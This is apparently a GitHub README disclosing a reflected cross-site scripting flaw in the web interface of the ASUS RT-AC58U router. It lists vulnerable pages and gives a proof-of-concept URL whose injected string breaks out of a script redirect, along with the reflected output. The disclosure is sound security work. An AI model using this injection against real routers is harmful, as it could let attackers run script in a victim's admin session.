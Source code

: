 # AsusXSS     
Newly discovered XSS in ASUS RT-AC58U website components.     

# Vulnerable components       
Advanced_ASUSDDNS_Content.asp       
Advanced_WSecurity_Content.asp        
Advanced_Wireless_Content.asp       
Logout.asp        
Main_Login.asp        
MobileQIS_Login.asp         
QIS_wizard.htma       
YandexDNS.asp       
ajax_status.xml         
apply.cgi         
clients.asp         
disk.asp      
disk_utility.asp        
internet.asp      
and any other component which is not accesible when not logged in.        
# How it works        
Target opens prepared URL:               
``192.168.1.1/Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0``       
which is vulnerable to Reflected XSS.       
Website returns website with this code:               
`<script>top.location.href='/Main_Login.asp?error_status=7&page=Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0&lock_time=31'</script>`         



